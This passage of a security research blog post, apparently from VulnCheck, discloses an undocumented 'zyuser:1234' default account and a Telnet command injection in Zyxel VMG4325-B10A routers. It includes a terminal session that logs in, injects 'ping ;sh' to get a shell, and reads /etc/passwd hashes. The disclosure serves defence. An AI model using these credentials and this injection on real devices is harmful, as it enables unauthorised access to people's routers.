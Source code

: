 table.\\n\\n!\[Decompiled runCommandInShell\](/blog/zyxel-telnet-vulns/usertable.png){:width="100%"}\\n\\n\\nThe web interface even prompts for a password change upon logging in as \`zyuser\`, but given the lack of a clear purpose for this redundant account, it's unlikely that many users bother to reset the password. Attackers, however, have certainly taken notice. Our colleagues at GreyNoise have observed activity targeting this account, and notably, its credentials were also used by \[BrickerBot\](https://github.com/JeremyNGalloway/mod\_plaintext.py/blob/master/mod\_plaintext.py).\\n\\nUndocumented, or poorly documented, default accounts with easily guessable passwords that are unlikely to be changed pose a significant security risk. We were unable to find an official manual for the VMG4325-B10A beyond a 2012 version and 2015 release notes, neither of which mention the zyuser account, leaving little to no documentation on its existence.\\n\\nWhile it may not be a popular stance, \[CWE-1392\](https://cwe.mitre.org/data/definitions/1392.html) (Use of Default Credentials) exists for a reason. Given that the \`zyuser:1234\` credentials ultimately enable full remote code execution via CVE-2024-40891, we believe it is reasonable to assign this issue its own identifier: CVE-2025-0890.\\n\\nTo reiterate, the \`zyuser\` account cannot use the hidden \`sh\` command via Telnet. Instead, it can only achieve code execution through the command injection (CVE-2024-40891).\\n\\n\`\`\`shell\\nalbinolobster@mournland:~$ telnet 192.168.0.1\\nTrying 192.168.0.1...\\nConnected to 192.168.0.1.\\nEscape character is '^\]'.\\nZyxel VMG4325-B10A\\nLogin: zyuser\\nPassword:\\n > sh\\ntelnetd:error:694.808:processInput:472:unrecognized command sh\\n > ping ;sh\\nBusyBox v1.17.2 (2017-06-15 12:25:20 CST) multi-call binary.\\n\\nUsage: ping \[OPTIONS\] HOST\\n\\nSend ICMP ECHO\_REQUEST packets to network hosts\\n\\nOptions:\\n -4, -6 Force IP or IPv6 name resolution\\n -c CNT Send only CNT pings\\n -s SIZE Send SIZE data bytes in packets (default:56)\\n -I IFACE/IP Use interface or IP address as source\\n -W SEC Seconds to wait for the first response (default:10)\\n (after all -c CNT packets are sent)\\n -w SEC Seconds until ping exits (default:infinite)\\n (can exit earlier with -c CNT)\\n -q Quiet, only displays output at start\\n and when finished\\n\\n\\n\\nBusyBox v1.17.2 (2017-06-15 12:25:20 CST) built-in shell (ash)\\nEnter 'help' for a list of built-in commands.\\n\\n# cat /etc/passwd\\nsupervisor:gNvaS9TkEwk..:0:0:Administrator:/:/bin/sh\\nnobody:Mm/NWrZmKMrT2:99:99:nobody for ftp:/:/bin/false\\nadmin:d7uXUhqhH7hew:100:0:Administrator:/:/bin/sh\\nzyuser:hH7gnvw0ISLfg:101:2:User:/:/bin/sh\\n\`\`\`\\n\\n# Overlap with Existing Research\\n\\nWhile finalizing this blog, VulnCheck conducted a final search for other work that might overlap with our research. We’ve identified three notable overlaps that align with or reinforce our finds:\\n\\n\* A chunk of the code for the Telnet service has been available on GitHub for 12 years and it even includes the \[hidden command logic\](https://github.com/ad7843/hi/blob/8cc9b776ffef2c725c666dc0208031e03e6b85ed/cli.c#L396). It’s notable that talented researcher Jang Nguyen (aka \[testanull\](https://github.com/testanull), aka \[@testanull\](https://x.com/testanull)) has a \[fork\](https://github.com/testanull/hi) of this repository. \\n\* In May 2023, NCCGroup published a blog titled, “\[NETGEAR Routers: A Playground for Hackers?\](https://www.nccgroup.com/us/research-blog/netgear-routers-a-playground-for-hackers/)” in which they describe the \[authenticated command injection\](https://www.nccgroup.com/us/research-blog/netgear-routers-a-playground-for-hackers/#psv-2023-0008---telnet-default-account-privilege-escalation-breakout) affecting the NETGEAR Nighthawk WiFi 6 Router (RAX30 AX2400). No CVE was assigned. \\n\* In July 2024, \[Jirka Balhar\](https://github.com/kukas) published a blog titled, “\[\*Getting admin shell on a Zyxel gateway\*\](https://blog.jirkabalhar.cz/2024/07/gaining-a-full-admin-shell-on-a-zyxel-gateway/)” in which they describe using the \`admin\` account to invoke the hidden \`sh\` command on the Zyxel SBG3300. No CVE was assigned.\\n\\n\\n# Conclusion\\n\\nThe device’s default accounts and command injection vulnerabilities present a serious security risk, especially given their continued exploitation in the wild, as confirmed by GreyNoise. While these devices are aging and supposed to be out of support, thousands remain exposed online. The combination of default credentials and command injection makes them easy targets, highlighting the dangers of insecure default configurations and poor vulnerability transparency. Unsupported does not mean unexploited, and this research underscores the lasting impact of insecure legacy devices.\\n\\n## About VulnCheck\\n\\nThe VulnCheck Initial Access team is always on the lookout for new exploitation in the wild. For more research like this, see our blogs, \[PaperCut Exploitation\](https://vulncheck.com/blog/papercut-rce), \[ProjectSend CVE-2024-11680 Exploited in the Wild\](https://vulncheck.com/blog/projectsend-exploited-itw), \[Fileless Remote Code Execution on Juniper Firewalls\\n\](https://vulncheck.com/blog/juniper-cve-2023-36845), and \[Does Confluence Dream of Shells?\](https://vulncheck.com/blog/confluence-dreams-of-shells)\\n\\nSign up to our website today to get free access to our \[VulnCheck KEV\](https://vulncheck.com/kev) and request a trial of our \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) and \[Exploit & Vulnerability Intelligence\](https://vulncheck.com/product/exploit-intelligence) products.\\n

#### [Source](https://vulncheck.com/blog/zyxel-telnet-vulns)

<br/>
---
